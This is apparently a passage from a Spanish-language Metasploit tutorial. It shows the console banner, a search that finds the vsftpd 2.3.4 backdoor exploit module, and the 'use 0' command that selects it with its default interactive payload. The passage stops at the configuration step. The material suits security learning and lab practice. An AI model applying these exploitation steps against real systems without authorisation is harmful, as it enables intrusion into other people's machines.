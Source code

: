 ````bash
`. X /.'
.-;--''--.._` ` (
.' / `
, ` ' Q '
, , `._ \
,.| ' `-.;_'
: . ` ; ` ` --,.._;
' ` , ) .'
`._ , ' /_
; ,''-,;' ``-
``-..__``--`
  
https://metasploit.com
=[ metasploit v6.3.16-dev ]
+ -- --=[ 2315 exploits - 1208 auxiliary - 412 post ]
+ -- --=[ 975 payloads - 46 encoders - 11 nops ]
+ -- --=[ 9 evasion ]
  
Metasploit tip: Writing a custom module? After editing your
module, why not try the reload command
Metasploit Documentation: https://docs.metasploit.com/
  
msf6 > search vsftpd 2.3.4
  
Matching Modules
================
  
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/unix/ftp/vsftpd_234_backdoor 2011-07-03 excellent No VSFTPD v2.3.4 Backdoor Command Execution
  
Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
  
msf6 >
````

4. Usar un exploit

En este caso usaremos el primer exploit que aparece, cuyo identificador es cero
```bash
msf6 > use 0
```

En la salida nos indica que lo debemos configurar.
```bash
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) >
```

5. Opciones de configuración
